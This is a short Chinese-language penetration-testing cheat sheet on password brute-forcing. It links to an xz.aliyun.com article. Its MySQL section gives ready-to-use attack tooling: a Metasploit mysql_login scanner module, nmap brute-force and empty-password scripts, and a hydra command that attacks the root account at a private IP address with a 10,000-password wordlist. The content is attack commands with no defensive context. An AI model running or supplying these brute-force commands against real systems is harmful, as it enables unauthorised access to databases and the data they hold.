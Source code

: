 # 渗透

## 密码爆破

 https://xz.aliyun.com/t/1652 

### mysql

```
msf:auxiliary/scanner/mysql/mysql_login
nmap:/usr/share/nmap/scripts/mysql-brute.nse和/usr/share/nmap/scripts/mysql-empty-password.nse
hydra -l root -P /root/Desktop/top10000pwd.txt -t 16 192.168.157.130 mysql
```



